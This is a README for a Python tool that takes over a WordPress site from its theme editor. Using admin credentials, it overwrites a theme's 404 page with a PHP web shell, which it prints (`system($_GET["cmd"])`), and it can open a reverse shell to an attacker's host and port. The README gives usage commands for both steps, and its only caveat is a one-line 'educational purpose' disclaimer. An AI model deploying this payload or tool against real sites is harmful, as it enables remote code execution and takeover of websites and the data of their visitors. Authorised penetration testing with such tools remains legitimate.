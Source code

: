# WP-editor-shell
Python script to automaticly get a reverse shell from WP theme editor page 

## Description
This script was created to simplify the creation of a reverse shell from a wordpress dashboard editor page. It allow the user to update the page 404 of a theme and replace the content with `<?php system($_GET["cmd"]);?>` which then allow command execution on the page. 

## Usage 
Usage to upload the PHP payload and gain RCE on the site 
```
python wp-editor-shell.py --url http://127.0.0.1/wordpress -u admin -p admin
```

Usage to get a reverse shell

To be able to get a reverse shell you first need to open a listener on your attack machine. 

```
python wp-editor-shell.py --url http://127.0.0.1/wordpress -u admin -p admin --lhost 172.0.0.1 --lport 80
```

## Help 

```
-h, --help       Display help message

-u, --username   Username to use for wordpress Dasboard

-p, --password   Password to use for wordpress Dasboard

--url            Address of the target website

--lhost          Ip address to use for the reverse shell

--lport          Local port to use for the reverse shell
```
## Disclaimer 

This script was created only for educationnal purpose. 

